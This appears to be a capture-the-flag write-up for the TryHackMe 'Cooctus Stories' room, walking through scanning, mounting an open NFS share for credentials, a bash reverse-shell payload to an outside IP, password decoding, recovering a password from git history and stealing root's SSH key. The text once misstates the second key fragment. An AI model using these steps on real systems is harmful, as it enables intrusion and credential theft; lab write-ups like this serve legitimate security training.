






# Cooctus Stories

This [room](https://tryhackme.com/room/cooctusadventures) is about the Cooctus Clan.

## [Task 1, The story so far...]

---

Note: A stable shell is recommended, so try and SSH into users when possible.

--- 

### [Q1, Paradox is nomming cookies]

Let's begin with running a nmap scan:

```
└─>$ nmap 10.10.33.240 -sC -sV --min-rate=1000 -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 16:18 +0430
Nmap scan report for 10.10.33.240
Host is up (0.31s latency).
Not shown: 65527 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:44:62:91:90:08:99:5d:e8:55:4f:69:ca:02:1c:10 (RSA)
|   256 e5:a7:b0:14:52:e1:c9:4e:0d:b8:1a:db:c5:d6:7e:f0 (ECDSA)
|_  256 02:97:18:d6:cd:32:58:17:50:43:dd:d2:2f:ba:15:53 (ED25519)
111/tcp   open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      44103/tcp6  mountd
|   100005  1,2,3      45021/udp6  mountd
|   100005  1,2,3      54619/udp   mountd
|   100005  1,2,3      56529/tcp   mountd
|   100021  1,3,4      34813/udp6  nlockmgr
|   100021  1,3,4      35275/tcp6  nlockmgr
|   100021  1,3,4      40505/tcp   nlockmgr
|   100021  1,3,4      59298/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl    3 (RPC #100227)
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
|_http-title: CCHQ
40505/tcp open  nlockmgr   1-4 (RPC #100021)
52517/tcp open  mountd     1-3 (RPC #100005)
55613/tcp open  mountd     1-3 (RPC #100005)
56529/tcp open  mountd     1-3 (RPC #100005)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


port 8080:



result of gobuster :

```
root@ip-10-10-10-145:~# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -u http://10.10.33.240:8080/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.33.240:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/04/15 13:15:05 Starting gobuster
===============================================================
/login (Status: 200)
/cat (Status: 302)
===============================================================
2021/04/15 13:15:51 Finished
===============================================================
```

As you can see /cat status is 302 - It redirects you to /login

Login page:




As you can see in the nmap result section, you may be able to mount rpc:

```
 ~ showmount -e 10.10.150.214                                       
Export list for 10.10.150.214:
/var/nfs/general *
 ~ sudo mount -t nfs 10.10.150.214:/var/nfs/general/ Desktop/cactoos
 ~ ls Desktop/cactoos 
credentials.bak
 ~ cat Desktop/cactoos/credentials.bak 
paradoxial.test
ShibaPretzel79
```

use the above credentials to login to the site.

This part was hard :), but after some guessing and fuzzing you will find the appropriate payload to get a reverse shell.

payload:

```
bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
```





First Flag: 

```bash
paradox@cchq:~$ cat user.txt
cat user.txt
THM{REDACTED}
```

---

### [Q2, Find out what Szymex is working on]


```
paradox@cchq:~$ ls -la /home
ls -la /home
total 24
drwxr-xr-x  6 root    root    4096 Jan  2 10:24 .
drwxr-xr-x 24 root    root    4096 Feb 20 21:04 ..
drwxr-xr-x  5 paradox paradox 4096 Feb 22 18:48 paradox
drwxr-xr-x  5 szymex  szymex  4096 Feb 22 18:45 szymex
drwxr-xr-x  9 tux     tux     4096 Feb 20 22:02 tux
drwxr-xr-x  7 varg    varg    4096 Feb 20 22:06 varg
paradox@cchq:~$ ls -la /home/szymex
ls -la /home/szymex
total 44
drwxr-xr-x 5 szymex szymex 4096 Feb 22 18:45 .
drwxr-xr-x 6 root   root   4096 Jan  2 10:24 ..
lrwxrwxrwx 1 szymex szymex    9 Feb 20 17:13 .bash_history -> /dev/null
-rw-r--r-- 1 szymex szymex  220 Jan  2 09:13 .bash_logout
-rw-r--r-- 1 szymex szymex 3865 Feb 20 21:27 .bashrc
drwx------ 2 szymex szymex 4096 Jan  2 09:27 .cache
drwx------ 3 szymex szymex 4096 Jan  2 21:44 .gnupg
drwxrwxr-x 3 szymex szymex 4096 Jan  2 10:59 .local
-r-------- 1 szymex szymex   11 Jan  2 14:18 mysupersecretpassword.cat
-rw-rw-r-- 1 szymex szymex  316 Feb 20 20:31 note_to_para
-rwxrwxr-- 1 szymex szymex  735 Feb 20 20:30 SniffingCat.py
-rw------- 1 szymex szymex   38 Feb 22 18:45 user.txt
paradox@cchq:~$ cat /home/szymex/note_to_para
cat /home/szymex/note_to_para
Paradox,

I'm testing my new Dr. Pepper Tracker script. 
It detects the location of shipments in real time and sends the coordinates to your account.
If you find this annoying you need to change my super secret password file to disable the tracker.

You know me, so you know how to get access to the file.

- Szymex
paradox@cchq:~$ cat /home/szymex/SniffingCat.py
cat /home/szymex/SniffingCat.py
#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)
```
There is a bad implementation as you can see in the third line of SniffingCat from the bottom that checks encoded password with the word "pureelpbxr".


After reading the encode function, you can guess that the algorithm must be ROT13, and you can decode that on the [cyber chef](https://gchq.github.io/CyberChef/) site.




Now, you can ssh to machine with user "szymex":

```
╰─➤  ssh szymex@10.10.150.214
szymex@10.10.150.214's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Apr 15 12:37:56 UTC 2021

  System load:  0.0                Processes:           107
  Usage of /:   35.0% of 18.57GB   Users logged in:     0
  Memory usage: 29%                IP address for eth0: 10.10.150.214
  Swap usage:   0%


0 packages can be updated.
0 of these updates are security updates.


Last login: Mon Feb 22 18:45:01 2021 from 172.16.228.1
szymex@cchq:~$cat user.txt 
THM{REDACTED}
```

---

### [Q3, Find out what Tux is working on]

```
szymex@cchq:~$ ls -la /home/tux/
total 52
drwxr-xr-x 9 tux  tux     4096 Feb 20 22:02 .
drwxr-xr-x 6 root root    4096 Jan  2 10:24 ..
lrwxrwxrwx 1 tux  tux        9 Feb 20 17:14 .bash_history -> /dev/null
-rw-r--r-- 1 tux  tux      220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 tux  tux     3772 Feb 20 21:28 .bashrc
drwx------ 3 tux  tux     4096 Nov 21 15:27 .cache
drwx------ 4 tux  tux     4096 Feb 20 08:54 .config
drwx------ 5 tux  tux     4096 Feb 20 20:03 .gnupg
-rw------- 1 tux  tux       58 Feb 20 22:01 .lesshst
drwx------ 5 tux  tux     4096 Jan  2 19:58 .local
-rw-rw-r-- 1 tux  tux      630 Jan  2 19:05 note_to_every_cooctus
drwx------ 2 tux  tux     4096 Feb 20 21:48 .ssh
-rw-r--r-- 1 tux  tux        0 Feb 20 22:02 .sudo_as_admin_successful
drwxrwx--- 2 tux  testers 4096 Feb 20 16:28 tuxling_1
-rw------- 1 tux  tux       38 Feb 20 21:05 user.txt
szymex@cchq:~$ cat /home/tux/note_to_every_cooctus 
Hello fellow Cooctus Clan members

I'm proposing my idea to dedicate a portion of the cooctus fund for the construction of a penguin army.

The 1st Tuxling Infantry will provide young and brave penguins with opportunities to
explore the world while making sure our control over every continent spreads accordingly.

Potential candidates will be chosen from a select few who successfully complete all 3 Tuxling Trials.
Work on the challenges is already underway thanks to the trio of my top-most explorers.

Required budget: 2,348,123 Doge coins and 47 pennies.

Hope this message finds all of you well and spiky.

- TuxTheXplorer
```
So there should be 3 challenges for this user ...

First challenge: 

```
szymex@cchq:~$ cd /home/tux/tuxling_1
szymex@cchq:/home/tux/tuxling_1$ ls
nootcode.c  note
szymex@cchq:/home/tux/tuxling_1$ cat note
Noot noot! You found me. 
I'm Mr. Skipper and this is my challenge for you.

General Tux has bestowed the first fragment of his secret key to me.
If you crack my NootCode you get a point on the Tuxling leaderboards and you'll find my key fragment.

Good luck and keep on nooting!

PS: You can compile the source code with gcc
szymex@cchq:/home/tux/tuxling_1$
```

After viewing the source code, you will notice that there is another defined word for each word. You can replace them to get a clear view of the source code or call the key function, compile and run the code to print the first key.

Original source code will look like this:

```c
#include <stdio.h>

int main (){
    printf( "What does the penguin say?\n");
    nuut();

    return 0;
}

void key(){
    printf("f96" "050a" "d61");
}

void nuut(){
    printf("NOOT!\n");
}
```
So the first fragment is "f96050ad61".


You should find challenge 2:

```
szymex@cchq:/home/tux$ find / -type d -name tuxling_2 2>/dev/null 
/media/tuxling_2
```

```
szymex@cchq:~$ cd /media/tuxling_2/
szymex@cchq:/media/tuxling_2$ ls
fragment.asc  note  private.key
szymex@cchq:/media/tuxling_2$ cat note 
Noot noot! You found me. 
I'm Rico and this is my challenge for you.

General Tux handed me a fragment of his secret key for safekeeping.
I've encrypted it with Penguin Grade Protection (PGP).

You can have the key fragment if you can decrypt it.

Good luck and keep on nooting!
```

So there is a key and an encrypted file. You should import the private key and then decrypt the file.

```
szymex@cchq:/media/tuxling_2$ gpg --import private.key 
gpg: key B70EB31F8EF3187C: public key "TuxPingu" imported
gpg: key B70EB31F8EF3187C: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
szymex@cchq:/media/tuxling_2$ gpg --decrypt fragment.asc 
gpg: encrypted with 3072-bit RSA key, ID 97D48EB17511A6FA, created 2021-02-20
      "TuxPingu"
The second key fragment is: 6eaf62818d
```

Second fragment is "f96050ad61".

```
szymex@cchq:~$ cd /home/tux/tuxling_3/
szymex@cchq:/home/tux/tuxling_3$ ls
note
szymex@cchq:/home/tux/tuxling_3$ cat note 
Hi! Kowalski here. 
I was practicing my act of disappearance so good job finding me.

Here take this,
The last fragment is: 637b56db1552

Combine them all and visit the station.
```

Last fragment is "637b56db1552"

Station? maybe He is reffering to crackstation.net



Now, you can change to user "tux":

```
tux@cchq:~$ cat user.txt 
THM{REDACTED}
```

---

### [Q4, Find out what Varg is working on]


```
tux@cchq:~$ cd /home/varg/
tux@cchq:/home/varg$ ls
CooctOS.py  cooctOS_src  user.txt
tux@cchq:/home/varg$ cd cooctOS_src/
tux@cchq:/home/varg/cooctOS_src$ ls games/
adventure  adventure.c  note
```
Feel free to play the game :D


But there is a .git directory!

```
tux@cchq:/home/varg/cooctOS_src$ ls -la
total 44
drwxrwx--- 11 varg os_tester 4096 Feb 20 15:44 .
drwxr-xr-x  7 varg varg      4096 Feb 20 22:06 ..
drwxrwx---  2 varg os_tester 4096 Feb 20 15:46 bin
drwxrwx---  4 varg os_tester 4096 Feb 20 15:22 boot
drwxrwx---  2 varg os_tester 4096 Feb 20 15:10 etc
drwxrwx---  2 varg os_tester 4096 Feb 20 15:41 games
drwxrwxr-x  8 varg os_tester 4096 Feb 20 15:47 .git
drwxrwx---  3 varg os_tester 4096 Feb 20 14:44 lib
drwxrwx--- 16 varg os_tester 4096 Feb 20 15:21 run
drwxrwx---  2 varg os_tester 4096 Feb 20 09:11 tmp
drwxrwx--- 11 varg os_tester 4096 Feb 20 15:20 var
tux@cchq:/home/varg/cooctOS_src$ cd .git/
tux@cchq:/home/varg/cooctOS_src/.git$ ls
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
```
After a little browsing in the directories, you will end up with series of logs.

```
tux@cchq:/home/varg/cooctOS_src/.git$ cat logs/HEAD
0000000000000000000000000000000000000000
6919df5c171460507f69769bc20e19bd0838b74d Vargles <varg@cchq.noot> 1613835988 +0000  commit (initial): Created git repo for CooctOS
6919df5c171460507f69769bc20e19bd0838b74d 8b8daa41120535c569d0b99c6859a1699227d086 Vargles <varg@cchq.noot> 1613836041 +0000  commit: Removed CooctOS login script for now
```

So what was commited ?

```
tux@cchq:/home/varg/cooctOS_src/.git$ git show 8b8daa41120535c569d0b99c6859a1699227d086 
commit 8b8daa41120535c569d0b99c6859a1699227d086 (HEAD -> master)
Author: Vargles <varg@cchq.noot>
Date:   Sat Feb 20 15:47:21 2021 +0000
    Removed CooctOS login script for now
diff --git a/bin/CooctOS.py b/bin/CooctOS.py
deleted file mode 100755 
index 4ccfcc1..0000000
--- a/bin/CooctOS.py
+++ /dev/null
@@ -1,52 +0,0 @@
-#!/usr/bin/python3
-
-import time
-import os;
-import pty;
-
-#print(chr(27)+ "[2J")
-logo = """\033[1;30;49m
- ██████╗ ██████╗  ██████╗  ██████╗████████╗ \033[1;37;49m██████╗ ███████╗\033[1;30;49m
-██╔════╝██╔═══██╗██╔═══██╗██╔════╝╚══██╔══╝\033[1;37;49m██╔═══██╗██╔════╝\033[1;30;49m
-██║     ██║   ██║██║   ██║██║        ██║   \033[1;37;49m██║   ██║███████╗\033[1;30;49m
-██║     ██║   ██║██║   ██║██║        ██║   \033[1;37;49m██║   ██║╚════██║\033[1;30;49m
-╚██████╗╚██████╔╝╚██████╔╝╚██████╗   ██║   \033[1;37;49m╚██████╔╝███████║\033[1;30;49m
- ╚═════╝ ╚═════╝  ╚═════╝  ╚═════╝   ╚═╝    \033[1;37;49m╚═════╝ ╚══════╝\033[1;30;49m
-"""
-print(logo)
-print("LOADING")
-print("[", end='')
-
-for i in range(0,60):
:...skipping...
commit 8b8daa41120535c569d0b99c6859a1699227d086 (HEAD -> master)
Author: Vargles <varg@cchq.noot>
Date:   Sat Feb 20 15:47:21 2021 +0000
    Removed CooctOS login script for now
diff --git a/bin/CooctOS.py b/bin/CooctOS.py
deleted file mode 100755
index 4ccfcc1..0000000
--- a/bin/CooctOS.py
+++ /dev/null
@@ -1,52 +0,0 @@
-#!/usr/bin/python3
-
-import time
-import os;
-import pty;
-
-#print(chr(27)+ "[2J")
-logo = """\033[1;30;49m
- ██████╗ ██████╗  ██████╗  ██████╗████████╗ \033[1;37;49m██████╗ ███████╗\033[1;30;49m
-██╔════╝██╔═══██╗██╔═══██╗██╔════╝╚══██╔══╝\033[1;37;49m██╔═══██╗██╔════╝\033[1;30;49m
-██║     ██║   ██║██║   ██║██║        ██║   \033[1;37;49m██║   ██║███████╗\033[1;30;49m
-██║     ██║   ██║██║   ██║██║        ██║   \033[1;37;49m██║   ██║╚════██║\033[1;30;49m
-╚██████╗╚██████╔╝╚██████╔╝╚██████╗   ██║   \033[1;37;49m╚██████╔╝███████║\033[1;30;49m
- ╚═════╝ ╚═════╝  ╚═════╝  ╚═════╝   ╚═╝    \033[1;37;49m╚═════╝ ╚══════╝\033[1;30;49m
-"""
-print(logo)
-print("                       LOADING")
-print("[", end='')
-
-for i in range(0,60):
-    #print(chr(27)+ "[2J")
-    #print(logo)
-    #print("                       LOADING")
-    print("[", end='')
-    print("=" * i, end='')
-    print("]")
-    time.sleep(0.02)
-    print("\033[A\033[A")
-
-print("\032")
-print("\033[0;0m[ \033[92m OK  \033[0;0m] Cold boot detected. Flux Capacitor powered up")
-
-print("\033[0;0m[ \033[92m OK  \033[0;0m] Mounted Cooctus Filesystem under /opt")
-
-print("\033[0;0m[ \033[92m OK  \033[0;0m] Finished booting sequence")
-
-print("CooctOS 13.3.7 LTS cookie tty1")
-uname = input("\ncookie login: ")
-pw = input("Password: ")
-
-for i in range(0,2):
-    if pw != "REDACTED":
-        pw = input("Password: ")
-    else:
-        if uname == "varg":
-            os.setuid(1002)
-            os.setgid(1002)
-            pty.spawn("/bin/rbash")
-            break
-        else:
-            print("Login Failed")
-            break
```

Again, there is a bad implementation in the code, and password can be seen.

Now, you can change to user "varg":

```
su varg
Password: 
varg@cchq:~$ ls
CooctOS.py  cooctOS_src  user.txt
varg@cchq:~$ cat user.txt 
THM{REDACTED}
```
---

### [Q5, Get full root privileges]


You can see what commands can varg run as root: 

```
varg@cchq:~$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```

So what should we unmount?
So what should we unmount? It looks like, they have mounted something in /opt

```
varg@cchq:~$ ls /opt/CooctFS/
bin  boot  etc  games  lib  run  tmp  var
```

Maybe unmount that with sudo?

```
varg@cchq:~$ sudo /bin/umount /opt/CooctFS
```

Interesting ...

```
varg@cchq:~$ cd /opt/CooctFS/
varg@cchq:/opt/CooctFS$ ls
root
varg@cchq:/opt/CooctFS$ ls root/
root.txt
varg@cchq:/opt/CooctFS$ cat root/root.txt 
hmmm...
No flag here. You aren't root yet.
```

But you can find id_rsa private key ... :)

```
varg@cchq:/opt/CooctFS$ ls -la root/
total 28
drwxr-xr-x 5 root root 4096 Feb 20 09:16 .
drwxr-xr-x 3 root root 4096 Feb 20 09:09 ..
lrwxrwxrwx 1 root root    9 Feb 20 09:15 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Feb 20 09:09 .bashrc
drwx------ 3 root root 4096 Feb 20 09:09 .cache
drwxr-xr-x 3 root root 4096 Feb 20 09:09 .local
-rw-r--r-- 1 root root   43 Feb 20 09:16 root.txt
drwxr-xr-x 2 root root 4096 Feb 20 09:41 .ssh
varg@cchq:/opt/CooctFS$ cd root/.ssh/
varg@cchq:/opt/CooctFS/root/.ssh$ ls
id_rsa  id_rsa.pub
```

ssh with that, and boom, we are root.😉

```
root@cchq:~# ls
root.txt
root@cchq:~# cat roo*
THM{REDACTED}
```


